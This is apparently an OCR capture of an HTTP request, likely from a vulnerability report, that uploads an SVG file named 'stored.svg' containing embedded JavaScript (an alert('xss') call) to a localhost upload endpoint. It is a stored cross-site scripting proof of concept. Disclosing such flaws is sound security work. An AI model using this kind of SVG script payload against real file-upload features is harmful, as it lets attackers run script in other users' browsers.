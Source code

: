 ```http
sec-ch-ua-platform: "Windows"

sec-ch-ua-mobile: ?0

Pragma: no-cache

Sec-Fetch-Mode: cors

Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9cau8eWCxPD8xFV6

Sec-Fetch-Dest: empty

Origin: http://localhost

Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

sec-ch-ua: "Not(A:Brand";v="99", "Google Chrome";v="133", "Chromium";v="133"

Content-Length: 1324

------WebKitFormBoundary9cau8eWCxPD8xFV6

Content-Disposition: form-data; name="file[]"; filename="stored.svg"

Content-Type: image/svg+xml

<?xml version="1.0" standalone="no"?>

<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" >

   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
   <script type="text/javascript">
      alert("xss");
   </script>

</svg>

------WebKitFormBoundary9cau8eWCxPD8xFV6
...
```